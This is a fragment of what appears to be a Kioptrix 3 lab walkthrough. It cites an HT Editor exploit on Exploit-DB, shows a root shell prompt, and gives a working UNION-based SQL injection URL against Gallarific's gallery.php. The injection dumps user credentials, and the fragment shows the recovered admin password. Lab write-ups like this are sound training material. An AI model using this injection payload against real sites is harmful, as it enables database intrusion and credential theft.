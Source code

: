 The HT Editor can be found here:
http://hte.sourceforge.net/downloads.html
And the vulnerable version on Exploit-DB here:
http://www.exploit-db.com/exploits/17083/


Also, all pictures were taken from Google Images, so being part of the
public domain I used them.

root@Kioptrix3:~#


I didn't play with Gallarific at all.  The exploit is simple injection.

kioptrix3.com/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users--

1:admin:n0t7t1k4

